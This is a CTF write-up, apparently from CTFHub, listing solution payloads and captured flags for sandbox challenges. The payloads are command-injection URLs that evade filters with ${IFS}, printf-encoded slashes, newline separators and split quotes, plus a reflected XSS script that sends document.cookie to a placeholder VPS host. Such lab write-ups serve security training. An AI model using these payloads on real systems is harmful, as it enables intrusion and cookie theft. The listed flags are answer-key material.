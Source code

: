flag: `ctfhub{3a11f2cf231640c5c205b8e4}`

### RCE - 过滤空格

```
http://challenge-1338583f7d5af8b7.sandbox.ctfhub.com:10800/?ip=127.0.0.1;rev${IFS}flag_3505160011536.php
```

flag: `ctfhub{fb1a4c06563005e755fae46f}`


### RCE - 过滤目录分隔符

```
http://challenge-6e85540bab8c2376.sandbox.ctfhub.com:10800/?ip=127.0.0.1;rev flag_is_here$(printf "\57")flag_153751813715521.php
```

flag: `ctfhub{c77408574b64110dfacac99a}`

### RCE - 过滤运算符

```
http://challenge-6aa7ad1f926deb98.sandbox.ctfhub.com:10800/?ip=127.0.0.1;rev flag_17973434432590.php
```

```
http://challenge-6aa7ad1f926deb98.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0arev flag_17973434432590.php
```

flag: `ctfhub{e3f9f6be1e920478b951d0e8}`

### RCE - 综合过滤练习

```
http://challenge-fda95211f14d1173.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0acd${IFS}fl""ag_is_here%0arev${IFS}fl""ag_180112698215425.php
```

flag: `ctfhub{ec29bf0f00e0425afef94e09}`

### XSS - 反射型

```
http://challenge-42da80f82dbd8cb4.sandbox.ctfhub.com:10800/?name=bob</h1>

<script>

var img = new Image();
img.src = "http://YOUR_VPS_ADDR:1111/" + escape(document.cookie);
document.body.appendChild(img);

</script>

<h1>emm
```
